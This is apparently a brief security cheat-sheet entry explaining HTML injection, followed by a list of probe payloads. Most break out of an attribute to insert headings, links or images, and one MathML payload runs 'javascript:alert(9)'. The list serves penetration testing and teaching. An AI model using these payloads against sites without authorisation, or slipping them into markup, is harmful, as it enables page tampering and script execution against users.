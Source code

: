 HTML injection is a type of injection vulnerability that occurs when a user is able to control an input point and is able to inject arbitrary HTML code into a vulnerable web page. This vulnerability can have many consequences, like disclosure of a user’s session cookies that could be used to impersonate the victim, or, more generally, it can allow the attacker to modify the page content seen by the victims.

```
"><html>test</html>

"><htm>test</htm>

"><h1>test</h1>

"><h1><a href ="http://example.com/">TEST</a></h1>

</br><h1>TEST</h1><img src="http://bing.com/"></br><h1>Test2</h1></br>

<math><maction actiontype="statusline#http://bing.com" xlink:href="javascript:alert(9)">CLICKME</maction></math>

"/><h1>test</h1>

"><b>negrita</b>
```
